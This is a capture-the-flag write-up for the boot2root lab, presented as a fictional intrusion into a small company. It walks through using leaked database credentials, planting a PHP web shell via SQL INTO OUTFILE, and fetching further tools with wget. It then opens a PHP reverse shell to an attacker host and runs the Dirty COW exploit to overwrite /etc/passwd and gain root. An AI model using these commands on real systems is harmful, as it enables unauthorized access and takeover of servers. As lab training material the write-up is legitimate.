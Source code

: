 # From Zero to Hero with COW

### ToC
0. [Introduction](#intro)
1. [The target](#target)
2. [Web Fun](#webpwn)
3. [Dirty cow & reverse shell](#cow)

## Introduction <a name=intro>
I don't know about you, but I'm of the opinion that a writeup doesn't have to be boring. To spice things a little let's pretend that we're pirates trying to gain full (root) access to a remote server.

To that purpose, we'll re-imagine the beginning of __boot2root__'s main track from the perspective of a fictional company that takes security all too lightly and then branch off to the infamous kernel exploit we're here to introduce. Everything introduced here from the 2nd section onwards can be followed after the 7th section of the first writeup.

## 1. The target <a name=target>
### Some background
First thing in order is to find an easy to hack target, for this purpose we could make use of a dedicated  engine like [shodan](https://shodan.io) or crawl SCM websites. If we were to use shodan maybe we'd look for - targets running softwares with unpatched vulnerabilities
- services running with their default credentials
- systems that really shouldn't be exposed online
And the list goes on.

### 42born2sec
Let's take a moment to introduce 42Born2Sec, 42Born2Sec is a small company that's too poor to employ a full time Ops so the developers are also in charge of maintaining the infrastructure, by extension the repositories.
Like any hip company, they love open source, so of course the code they use on production is all on github, conveniently for us.

### JDBC
Sadly for 42Born2Sec, they've made a grave mistake.
It turns out that one of their employees didn't know better and commited a JDBC string with the production credentials!
``` Java
String dbConnectionString = "jdbc:mysql://root:Fg-'kKXBj87E:aJ$@42Born2Sec.tld"
```
JDBC is an API that allows java programs to access relational databases, in this case they're using mysql for what seems to be production database, the username is `root` and the password `Fg-'kKXBj87E:aJ$`
Now to use that...

#### Notes
In this hypothetical scenario we pretended we found credentials in a github repo, but how does one actually do that?
It's actually pretty easy, you can use github's built in code search engine or a website like [this](https://shhgit.darkport.co.uk/).

## 2. Web Pwnage <a name=webpwn>
Now that we have mysql credentials, let's find a way to use them.

### Recon
We saw a domain in that jdbc string, but sadly the mySQL daemon port (__3306__) is closed on it, not like that'd be enough to stop us.

The next best thing would be some web mysql management tool, but surely they wouldn't run that on their production server, as n00bish as they are.
 ```
 https://42born2sec.tld/phpmyadmin
 ```
 Oh no.

### MyLittleForum
Welp let's just use the credentials we just found out, and next thing we know we're into phpmyadmin.

From looking at the DB, it turns out they're also running a forum using 'mylittleforum'. Interestingly they [tell people to do a permissive chmod on the subdirectory __templates_c__ ].(https://github.com/ilosuna/mylittleforum/wiki/Installation).
It would be a shame if someone were to inject a php script in that directory, so that's basically what we just did.
``` SQL
SELECT "<pre><?php echo shell_exec($_GET['e']); ?></pre>" INTO OUTFILE '/var/www/forum/templates_c/shell.php';
```

### Pwny in the shell
We now have a sucky shell at `https://42born2sec.tld/forum/templates_c/shell.php` that takes GET arguments, let's use it to bootstrap a better shell
```
https://42born2sec.tld/forum/templates_c/shell.php?e=wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php -O p0wny.php
```
Now that we have a decent enough shell, we could certainly mine cryptocurrencies, spy on the users(read access.log) add this machine to a botnet to DoS stuff and so forth. You can certainly do a lot in userland, but why only settle for that?

Let's start with the biggest potential win, the kernel
``` shell
p0wny@shell:…/forum/templates_c# uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
Linux 3.2.0... that's old, dirty cow old!

## 3. Mad(vise) COW <a name=cow>

### Wut?
[Dirty cow](https://dirtycow.ninja/) (CVE[-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195)) is a Linux local privilege bug that was made public in 2017, but it has actually been exploitable since 2007. It basically works by exploiting a race condition in the Kernel's copy-on-write implementation to turn a read-only mapping into a writable one, effectively allowing any user to modify say, `/etc/passwd` and become root.

This kernel version is definitely vulnerable to dirty cow so let's do just that!

### Pwn away
Let's use the `pokemon` implementation of dirty cow,  we'll fetch it it from github and compile it, of course it needs to be linked with pthread since it's a race conditon based exploit after all.
``` shell
p0wny@shell:…/forum/templates_c# wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
[...]
2019-11-07 22:57:53 (105 KB/s) - `pokemon.c' saved [4302/4302]
p0wny@shell:…/forum/templates_c# gcc -pthread pokemon.c -o miltank
```
#### Notes
The `madviseThread` threads tells the kernel to throw away our mapping, while it tries to inject our text within the memory, using `ptrace`, that's basically all the magic there is to it.

### "Shell".reverse() <a name=revshell>
Before going any further, let's get a nice and comfy reverse shell running, first we'll listen on one of our machines using `netcat` (note that we could use a more inconspicuous port if we didn't want to to raise suspicion).
```shell
root@kali:~# nc -lp 666
```
Great! now we just need to send a shell to it, let's do it from p0wny with good ol' `php`
``` shell
p0wny@shell:…/forum/templates_c# php -r '$s=fsockopen("<OUR IP>",666);exec("/bin/bash -i <&3 >&3 2>&3");'
```

### It's Showtime
Let's actually use the exploit to modify root's password to __"toor"__ in `/etc/passwd` (`openssl passwd -1`), upgrade to a __tty__ and become root with `su`. Note that our entry will override the next one, so you might want to make a backup of /etc/passwd beforehand.
``` shell
www-data@BornToSecHackMe:/var/www/forum/templates_c$ ./miltank "/etc/passwd" $'root:$1$t3LoNDe6$0RictPpiKAlMMIXPByMrM1:0:0:root:/root:/bin/bash\n'
/etc/passwd                               
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, /root:$1$t3LoNDe6$0RictPpiKAlMMIXPByMrM1:0:0:root:/root:/bin/bash
                          
     //    //                              
    ^^    ^^                               
mmap b7fd9000

madvise 0

ptrace 0

www-data@BornToSecHackMe:/var/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'   
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su
Password: toor

root@BornToSecHackMe:/var/www/forum/templates_c# id
uid=0(root) gid=0(root) groups=0(root)
```
We're in! 🎉

# Conclusion
If there's one thing that's not to be neglected, it's security.

All in all, this was merely an exercise, but it's still incredible to think that a ton of businesses still haven't patched their systems for dirty COW, a three year old security issue, 42born2sec could've been any small business 🤦‍